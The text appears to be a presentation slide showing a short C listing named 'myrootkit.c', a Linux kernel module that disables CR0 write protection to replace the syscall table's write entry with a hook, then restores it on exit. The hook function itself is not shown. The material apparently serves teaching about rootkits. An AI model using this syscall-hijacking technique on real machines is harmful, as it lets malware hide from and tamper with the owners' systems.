

# myrootkit.c
static int __init init_rootkit(void) {
  printk(KERN_ALERT “Entering the kernel!\n”);

  // disable write protection, flip bit 16

  write_cr0 (read_cr0 () & (~ 0x10000));
  original_write = (void *)syscall_table[__NR_write];
  syscall_table[__NR_write] = (unsigned long) new_write;

  // re-enable write protection, flip bit 16
  write_cr0 (read_cr0 () | 0x10000); return 0;
  return 0;
}

static void __exit bye(void) {
  write_cr0 (read_cr0 () & (~ 0x10000));
  syscall_table[__NR_write] = (unsigned long)original_write;

  write_cr0 (read_cr0 () | 0x10000);
   printk(KERN_ALERT "MODULE EXIT\n");
  return;
}